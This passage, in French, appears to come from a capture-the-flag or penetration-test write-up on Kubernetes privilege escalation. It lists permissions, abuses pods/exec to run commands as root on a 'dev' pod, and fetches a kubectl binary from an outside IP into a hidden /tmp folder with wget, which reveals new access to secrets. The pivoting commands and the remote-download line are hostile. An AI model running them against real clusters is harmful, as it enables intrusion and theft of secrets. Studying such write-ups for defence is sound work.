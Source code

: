 Puis on va regarder quelles sont nos permissions :

```
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
nodes                                           []                  []               [get watch list]
pods                                            []                  []               [get watch list]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

On remarque que notre utilisateur peut exécuter du code grâce à la permission pods/exec.

# Pivot sur le pod dev

On peut alors exécuter du code sur le pod dev :

```
$ ./kubectl exec dev-57f659f775-4wr9p -- hostname
dev-57f659f775-4wr9p
$ ./kubectl exec dev-57f659f775-4wr9p -- whoami
root
```

On répète la manip pour récupérer kubectl sur le pod dev, avec wget cette fois :

```
./kubectl exec dev-57f659f775-4wr9p -- wget http://18.188.14.65:16309/kubectl -O /tmp/.tmp/kubectl
```

A-t-on de nouveaux droits grâce à l’exécution de code sur le pod dev ?

```
$ ./kubectl exec dev-57f659f775-4wr9p -- /tmp/.tmp/kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
nodes                                           []                  []               [get watch list]
pods                                            []                  []               [get watch list]
secrets                                         []                  []               [get watch list]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
```